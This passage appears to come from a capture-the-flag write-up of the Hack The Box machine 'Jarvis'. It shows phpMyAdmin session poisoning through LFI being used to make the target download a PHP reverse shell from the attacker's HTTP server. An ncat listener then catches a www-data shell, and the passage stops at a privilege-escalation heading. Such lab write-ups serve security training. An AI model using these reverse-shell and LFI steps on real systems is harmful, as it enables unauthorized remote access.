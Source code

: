 From there, I accessed the PHP session identifier via LFI to run the exploit.
Notice that the session name will go in the URL and can be found be looking up the `phpMyAdmin` cookie as demonstrated below.

![](./images/jarvis-phpmyadmin-execute-lfi-downloader.png)

At this point, my PHP reverse shell was successfully downloaded to `/var/www/html/r0kit-rsh.php`!

```none
kali@kali:~/htb/machines/jarvis/web-80/phpmyadmin/exploit$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.143 - - [23/Sep/2020 19:36:42] "GET /r0kit-rsh.php HTTP/1.1" 200 -
10.10.10.143 - - [23/Sep/2020 19:36:42] "GET /r0kit-rsh.php HTTP/1.1" 200 -
```

Note that if you wish to execute multiple commands, you may need to logout log back in so that you can poison a new PHP session.

I then executed my reverse shell as `www-data` by visiting `http://10.10.10.143/r0kit-rsh.php`:

```none
kali@kali:~/htb/machines/jarvis/loot$ ncat -nlvp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48462.
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
 19:40:44 up  2:32,  0 users,  load average: 0.00, 0.00, 0.00
 USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 /bin/sh: 0: can't access tty; job control turned off
 $ id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation - User (Restricted Sudo - OS Command Injection Filter Bypass)
